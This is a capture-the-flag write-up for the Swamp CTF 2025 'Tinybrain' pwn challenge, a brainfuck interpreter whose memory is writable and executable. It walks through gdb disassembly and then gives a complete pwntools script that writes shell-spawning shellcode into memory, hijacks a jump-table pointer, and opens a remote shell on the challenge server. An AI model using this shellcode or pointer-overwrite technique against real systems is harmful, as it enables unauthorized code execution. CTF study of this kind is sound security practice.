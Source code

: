 ```yaml
---
title: Tinybrain
date: 2025-03-30T18:09:17+03:00
description: Writeup for Tinybrain [Swamp CTF 2025]
type: writeup
author: sunbather
tags:
- pwn
draft: false
---
```

___

## Challenge Description

Optimized for the minimum footprint... if you ignore the jump tables...

Note: bf should be called with a file. The remote runs a script that is not provided, of which makes a file from your input.

## Intuition

We're given a brainfuck interpreter that takes interprets the program found in the filename passed as its first argument. Let's look at it dynamically:

```
$ gdb --args bf payload
pwndbg> start
   0x401000    lea    r13, [0x403800]                 R13 => 0x403800 ◂— 0
   0x401008    xor    r14, r14                        R14 => 0
   0x40100b    mov    rdi, qword ptr [rsp + 0x10]     RDI, [0x7fffffffdef0] => 0x7fffffffe270 ◂— 0x64616f6c796170 /* 'payload' */
   0x401010    mov    eax, 2                          EAX => 2
   0x401015    xor    esi, esi                        ESI => 0
   0x401017    xor    edx, edx                        EDX => 0
   0x401019    syscall  <SYS_open>
   0x40101b    mov    r12, rax
   0x40101e    call   0x40102a                    <0x40102a>
 
   0x401023    jmp    qword ptr [rax*8 + 0x402000]
 
   0x40102a    inc    r14
```

We can see that the our file "payload" is opened through the `open()` syscall.
Then the function at `0x40102a` is called. Let's see it:

```
   0x40102a    inc    r14                         R14 => 1
   0x40102d    xor    eax, eax                    EAX => 0
   0x40102f    mov    rdi, r12                    RDI => 3
   0x401032    lea    rsi, [rsp - 1]              RSI => 0x7fffffffded7 ◂— 0x40102300
   0x401037    mov    byte ptr [rsi], 0           [0x7fffffffded7] => 0
   0x40103a    mov    edx, 1                      EDX => 1
   0x40103f    syscall  <SYS_read>
   0x401041    movzx  eax, byte ptr [rsp - 1]
   0x401046    ret 
       ↓
   0x401023    jmp    qword ptr [rax*8 + 0x402000] <0x401047>
```

Then we can see the file is read one byte at the time and put into EAX.
Which is further used for the jump table after the ret.
The jump table calls the appropriate handler for the brainfuck instruction extracted from the file.
There is a huge array of pointers at `0x402000` which each map a character to a function. Most of them are NOPs.

Let's check out the register values after the first read character:

```
 RAX  0x2b
 RBX  0
 RCX  0x401041 ◂— movzx eax, byte ptr [rsp - 1] /* 0x8348c3ff2444b60f */
 RDX  1
 RDI  3
 RSI  0x7fffffffded7 ◂— 0x4010232b
 R8   0
 R9   0
 R10  0
 R11  0x346
 R12  3
 R13  0x403800 ◂— 0
 R14  1
 R15  0
 RBP  0
 RSP  0x7fffffffded8 —▸ 0x401023 ◂— jmp qword ptr [rax*8 + 0x402000] /* 0x4900402000c524ff */
 RIP  0x401046 ◂— ret  /* 0x4528412ce88348c3 */
```

We can see we have a memory address in R13, a counter in R14, and the extracted character in RAX.
R13 (the memory address) is also used as a pointer to write to.
Specifically, when the character `+` or `-` are used, the following handler adds, or substracts 1 from the value R13 points at:

```
   0x401047    sub    rax, 0x2c              RAX => 0xffffffffffffffff (0x2b - 0x2c)
   0x40104b    sub    byte ptr [r13], al     [0x403800] => 1 (0x0 - 0xff)
   0x40104f    jmp    0x40101e                    <0x40101e>
```

Basically, R13 points towards the memory of our brainfuck program. Additionally, you can navigate through it with the `>` and `<` characters:

```
   0x401051    sub    rax, 0x3d                        RAX => 1 (0x3e - 0x3d)
   0x401055    add    r13, rax                         R13 => 0x403801 (0x403800 + 0x1)
   0x401058    jmp    0x40101e                    <0x40101e>
```

Now, interestingly, the program's memory is RWX:

```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File
          0x401000           0x404000 rwxp     3000   1000 /home/costinteo/Programming/ctf/swampctf/pwn/tinybrain/bf
    0x7ffff7ff9000     0x7ffff7ffd000 r--p     4000      0 [vvar]
    0x7ffff7ffd000     0x7ffff7fff000 r-xp     2000      0 [vdso]
    0x7ffffffde000     0x7ffffffff000 rw-p    21000      0 [stack]
0xffffffffff600000 0xffffffffff601000 --xp     1000      0 [vsyscall]
```

So the idea is as such:

1. Write shellcode in the program memory starting from `0x403800` by increasing each byte one by one.
2. Move back with a bunch of `<` characters to go to `0x402000`, where the array of function pointers starts.
3. Change a few bytes for the NULL character handler to point to `0x403800`, the beginning of the shellcode.
4. Send a NULL byte.
5. ???
6. Win.

## Solution

Python script below. Have fun:

```py
#!/usr/bin/env python3

from pwn import *

# Just spawns a shell
shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

cf = b">"
cb = b"<"
a  = b"+"
s  = b"-"

payload = b""

# Write shellcode
for c in shellcode:
    for i in range(c):
        payload += a
    payload += cf

offset = 0x403800 - 0x402000

# Get to array of ptrs
payload += offset * cb + len(shellcode) * cb

# Decrease first byte of the first pointer
for i in range(0xac):
    payload += s

payload += cf

# Increase first byte of the first pointer
for i in range(0x28):
    payload += a

# Trigger
payload += b"\x00"

open("./payload", "wb").write(payload)

target = remote("chals.swampctf.com", 41414)

target.send(payload + b"q") # Need 'q' for the remote program to finish input
target.interactive()
```

### Flag

```
$ ./solve.py 
[+] Opening connection to chals.swampctf.com on port 41414: Done
[*] Switching to interactive mode
Insert brainfuck instructions (q to finish):
$ id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu)
$ cat flag.txt
swampCTF{1_W4s_re4L1y_Pr0ud_of_th15_b1N}
```
